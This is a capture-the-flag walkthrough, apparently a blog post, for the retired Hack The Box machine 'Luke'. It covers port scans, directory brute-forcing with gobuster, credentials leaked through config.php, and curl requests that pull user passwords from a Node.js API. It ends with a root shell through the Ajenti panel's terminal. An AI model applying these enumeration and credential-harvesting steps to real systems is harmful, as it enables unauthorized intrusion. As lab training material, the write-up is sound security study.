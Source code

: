 ```yaml
---
layout: post
title:  "HTB - Luke"
date:   2020-06-01 20:00 +0100
tags: writeups
initial: 2019-09-01
---
```

Writeup for the retired HTB machine Luke  
Link: https://www.hackthebox.eu/home/machines/profile/190  
IP: 10.10.10.137

<!--more-->

## Recon
A qick portscan reveals multiple open ports:  
```
21/tcp   open  ftp     vsftpd 3.0.3+ (ext.1)  
| ftp-anon: Anonymous FTP login allowed (FTP code 230)  
22/tcp   open  ssh?  
3000/tcp open  http    Node.js Express framework  
8000/tcp open  http    Ajenti http control panel  
```
The FTP holds a note from Derry to Chihiro, which reveals these two usernames.

### Dirb scan for main
As there are multiple websites hosted, all of them are checked for subfolders and interesting files:  
```
START_TIME: Sun Sep  1 15:04:07 2019
URL_BASE: http://10.10.10.137/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

---- Scanning URL: http://10.10.10.137/ ----
==> DIRECTORY: http://10.10.10.137/css/                                                              
+ http://10.10.10.137/index.html (CODE:200|SIZE:3138)                                                
==> DIRECTORY: http://10.10.10.137/js/                                                               
+ http://10.10.10.137/LICENSE (CODE:200|SIZE:1093)                                                   
+ http://10.10.10.137/management (CODE:401|SIZE:381)                                                 
==> DIRECTORY: http://10.10.10.137/member/                                                           
==> DIRECTORY: http://10.10.10.137/vendor/   
```

### Dirb scan for 3000:
```
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

---- Scanning URL: http://10.10.10.137:3000/ ----
+ http://10.10.10.137:3000/login (CODE:200|SIZE:13)                                                  
+ http://10.10.10.137:3000/users (CODE:200|SIZE:56) 
```

### gobuster for main
As the Dirb scans were not considering file extensions in their called configuration, a correctly configured gobuster scan is conducted as well:  

Important: **Check for extensions! (-x)**  
`gobuster dir -u http://10.10.10.137 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html`  
```
===============================================================
2019/09/01 15:58:46 Starting gobuster
===============================================================
/index.html (Status: 200)
/login.php (Status: 200)
/member (Status: 301)
/management (Status: 401)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/config.php (Status: 200)
/LICENSE (Status: 200)
Progress: 163025 / 220561 (73.91%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
```

This yields `http://10.10.10.137/config.php`, which reveals credentials:
`root:Zk6heYCyv6ZE9Xcg`
These creds can be used to log in to :3000/login, but using username *root* doesn't work... but *admin* does.

`curl -s -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' --data '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}' http://10.10.10.137:3000/login`

The resulting token can be used to enumerate users:
`curl -s -X GET -H 'Accept: application/json' -H 'Content-Type: application/json' -H 'Authorization: Bearer INSERTTOKENHERE' http://10.10.10.137:3000/users`

```json
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```

By enumerating everything on port 3000, one can observe that the endpoint `/user/{username}` exists. So we can query for every single user:

`curl -s -X GET -H 'Accept: application/json' -H 'Content-Type: application/json' -H 'Authorization: Bearer INSERTTOKENHERE' http://10.10.10.137:3000/users/admin`  
which yields:
```json 
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```
with these, we can try to login to `/management` and find a config.json. That one holds credentials as well.  
`root:KpMasng6S5EtTy9Z`  
With these credentials, one can login to :8000 (Ajenti).

Ajenti provides a comfortable web interface for management - including a *Terminal* (located under *Tools*).  
Opening that Terminal yields a root shell on the system that can be used to print the root flag.